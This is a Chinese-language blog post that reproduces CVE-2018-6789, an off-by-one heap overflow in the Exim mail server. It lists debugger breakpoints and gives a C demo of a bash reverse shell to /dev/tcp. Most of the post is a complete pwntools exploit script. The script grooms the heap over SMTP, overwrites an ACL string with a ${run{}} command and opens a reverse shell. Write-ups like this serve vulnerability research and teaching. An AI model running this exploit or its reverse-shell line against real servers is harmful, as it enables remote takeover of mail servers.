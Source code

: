 ```yaml
---
layout: post
title:  "CVE-2018-6789：Exim Off-by-One漏洞复现分析"
date:   2018-04-09 11:30:00
categories: 漏洞分析
tags: [pwn]
---
```


<!-- more -->

### 分析环境


系统环境：Linux kali 4.13.0-kali1-amd64 #1 SMP Debian 4.13.13-1kali1 (2017-11-17) x86_64 GNU/Linux

编译环境：ldd (Debian GLIBC 2.25-3) 2.25

分析版本：

```
$ git clone https://github.com/Exim/exim.git
$ git checkout ef9da2ee969c27824fcd5aed6a59ac4cd217587b
```

调试时下的断点：

```
b check_helo
b b64decode
b base64.c:214
b smtp_in.c:4746
b smtp_in.c:4993
b expand_string_internal at expand.c:5006 
b child_open_uid at child.c:395 
```

### 漏洞分析

关于漏洞的分析见参考文章，里面写的很详细了，本文主要是对复现过程进行记录。

由于编写的exp无法弹回shell，所以对命令执行的地方进行了跟踪：

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/2.jpg)

---

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/3.jpg)

---

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/4.jpg)

---

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/6.jpg)

---

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/7.jpg)

路径为：acl_check->acl_check_internal->expand_string->child_open->execv

最后会fork一个子进程来执行execv，类似下面的demo：

```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

int main()
{
    char *argv[10] = {0};
    argv[0] = "/bin/bash";
    argv[1] = "-c";
    argv[2] = "/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1";
    execv(argv[0],argv);
    return 0;
}

```

### exp 代码

```
from pwn import *
import time

def EHLO(r,hostname):  
    time.sleep(1)
    r.sendline("EHLO "+hostname)
    r.recvline()

def Sendline(r,info):
    time.sleep(1)
    r.sendline(info)
    r.recvline()

def AUTH(r,info):
    time.sleep(1)
    r.sendline("AUTH CRAM-MD5")
    r.recvline()
    time.sleep(1)
    r.sendline(info)
    r.recvline()

if __name__=='__main__':
    r = remote('localhost',25)
    command = "/bin/bash -c '/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1'"
   
#Step 1：进行内存布局

    Sendline(r,'\x7f'*4102) 
    #通过unrecognized command来获取一个0x4041的堆块

    EHLO(r,'c'*0x2010) 
    #通过sender_host_name 申请一个0x2021的堆块，同时释放上面0x4041的堆块

#Step 2：将位于底部的0x2021的堆块移到中间

    Sendline(r,'\x7f'*0x800) 
    #通过unrecognized command占用顶部0x2020的chunk

    EHLO(r,'c'*(0x2000-9)) 
    #使用EHLO释放之前的sender_host_name，然后重新设置，让sender_host_name位于0x6060大小chunk的中部

#Step 3：触发off by one漏洞

    payload1 = "HfHf"*0xaae

    AUTH(r,payload1[:-1]) 
    #将中间chunk的size由0x2021变成0x20f1

#Step 4:构造在第三块chunk中构造一个fake chunk

    payload = p64(0x1f31)+p64(0x20f0)
    payload1 = base64.b64encode(payload*484).replace("\n","")
    AUTH(r,payload1) 
    #绕过free检查，表明中间chunk的size是正确的

#Step 5:通过释放sender_host_name，把一个原本0x2000的chunk扩展成0x20f0, 但是却不触发smtp_reset

    time.sleep(1)
    EHLO(r,'a+')

#Step 6: 修改storeblock的next指针为储存acl_check_rcpt字符串的堆块地址（我的环境只有rcpt和data命令可用）

    time.sleep(1)
    payload = 'd'*(0x2000-0x20)
    address = 0x5582f18dd9a0 
    #包含acl_check_rcpt字符串的堆起始地址+0x10

    payload = base64.b64encode(payload+p64(0x2021)+p64(0x2021)+p64(address)+p64(0x2000)+p64(0x2000))
    #next指针后还要对chunk的size赋值，不然之后在free的时候会检查size大小，导致失败

    AUTH(r,payload)

#Step 7: 调用smtp_reset ->储存acl_check_rcpt字符串的堆块被释放丢入unsorted_bin

    EHLO(r,"crashed")

    time.sleep(1)

#Step 8:重新申请0x2020的堆块来覆盖acl_check_rcpt为要执行的命令（我的环境还多了一个0x2020的unsorted_bin，所以申请了两次，在第二次进行覆盖）

    payload = 'e'*0x2000 
    payload = base64.b64encode(payload)
    AUTH(r,payload)

    time.sleep(1)
    payload = 'f'*300+'\x20'+'f'*27 
    #对AUTH有空格判断，如果有空格就变成'0x00'，只会进行一次判断，所以在命令前还要加个空格，不然命令里的空格会被变成'0x00'导致失败。

    command = "${run{" + command + "}}\x00"
    payload += command
    payload += 'f'*(175-len(command)) + "/root/bin-tree/exim/var/spool/exim/log/%slog\x00" 
    #由于第一次覆盖把日志文件的名字覆盖了，又重新写入

    payload += 'f'*(0x2000-len(payload))
    payload = base64.b64encode(payload)
    AUTH(r,payload)

#Step9: 触发acl_check_rcpt检查

    time.sleep(1)

    Sendline(r,"mail from: <pluskid@zju.edu.cn>")

    time.sleep(1)

    Sendline(r,"RCPT TO: <pluskid@mstczju.org>")

    r.interactive()

```

不知道是不是我环境的原因，感觉比网上的文章描述的多了好多坑。。。

### 攻击效果

![](../image/2018-04-09-CVE-2018-6789-Exim-Off-by-One漏洞分析/1.jpg)

最后攻击效果虽然在进程里起了bash，但是并没有弹回来shell，应该和我本地的环境有关，touch命令倒是执行成功了，调试发现，起了bash后，exim进程又把它kill了，很奇怪。

该exp也没有对随机化进行绕过，网上公开的资料都是对地址进行爆破。

### 参考链接

https://paper.seebug.org/469/

https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/

https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/exp.py

